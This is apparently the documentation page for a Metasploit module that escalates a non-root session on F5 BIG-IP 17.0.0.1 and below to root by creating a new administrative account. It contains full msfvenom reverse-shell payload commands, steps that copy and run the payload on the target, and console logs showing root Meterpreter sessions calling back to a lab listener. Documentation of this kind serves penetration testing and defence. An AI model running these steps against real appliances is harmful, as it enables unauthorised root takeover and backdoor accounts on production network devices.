 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get a non-root session somehow (eg: `use multi/handler` / `set PAYLOAD linux/x64/meterpreter_reverse_tcp` then `./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 /bin/bash << EOF
chmod +x /tmp/testexploit.elf
sudo -u apache /tmp/testexploit.elf
EOF`)
4. Do: `use exploit/linux/local/f5_create_user`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get a session

## Options

### `USERNAME` / `PASSWORD`

The username and final password for the account. If blank, they'll be randomly
generated.

### `CREATE_SESSION`

If set (which is default), will spawn a root session. Otherwise, simply creates
the account.

## Scenarios

### F5 Big-IP 17.0.0.1 - Create a session with random creds

First, get a non-root session however you can. You can use a `multi/handler`
and `msfvenom`:

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:34140) at 2022-11-14 15:59:49 -0800

[...run the payload...]

meterpreter > getuid
Server username: apache

meterpreter > bg

msf6 exploit(multi/handler) > setg SESSION 1
SESSION => 1
```

To create and run the payload, in another window:

```
$ ./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 sudo -u apache /tmp/testexploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1068640 bytes
Final size of elf file: 1068640 bytes
testexploit.elf
```

Now that we have a session, we can just run the module:

```
msf6 exploit(multi/handler) > use exploit/linux/local/f5_create_user
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user 7yI5vLIK / woquVd36PhcG, then change password to 9d9s83bBPwu5 when creating a session
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40168 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:45254) at 2022-11-14 16:02:10 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Create a session with set creds

Create a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser
USERNAME => mymsfdemouser
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > set VERBOSE true
VERBOSE => true
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser / QVEE0pqM7pAd, then change password to mybigmsfdemopassword when creating a session
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40164 bytes) to 10.0.0.162
[*] Output from su command: Password: You are required to change your password immediately (root enforced)
(current) BIG-IP password: New BIG-IP password: Retype new BIG-IP password: Changing password for mymsfdemouser.
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.162:49646) at 2022-11-14 16:03:04 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Just create an account with random creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user hKjGGrlU / yRQijFQjVjqa
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Just create an account with set creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser2
USERNAME => mymsfdemouser2
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Create an account with an error

Get a session as shown above, then (we use a duplicate username):

```

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[-] mcp query returned an error message: 01020066:3: The requested user (mymsfdemouser2) already exists in partition Common. (code: 16908390)
```
